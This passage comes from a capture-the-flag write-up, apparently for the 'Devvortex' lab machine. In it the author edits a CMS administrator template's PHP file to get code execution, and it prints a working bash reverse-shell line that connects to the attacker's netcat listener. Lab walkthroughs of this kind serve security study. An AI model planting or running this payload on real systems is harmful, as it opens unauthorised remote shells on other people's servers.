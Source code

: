     - ![logged in](./devvortex/loggedin.jpg)
Now my first intension was to get some place where I can inject some payloads to get get remode code execution(RCE). On navigating through different sections in the page, I came to a index.php file in system -> administrator templates -> atum files -> index.php. That php file could be used to run my payload and get a reverse shell. So I included a bash -i reverse shell command in the login.php file using system command and fired up my netcat listener on port 1234.

`system('bash -c "bash -i >& /dev/tcp/10.10.14.151/1234 0>&1"');`

![payload input section](./devvortex/payload_input_section.jpg)

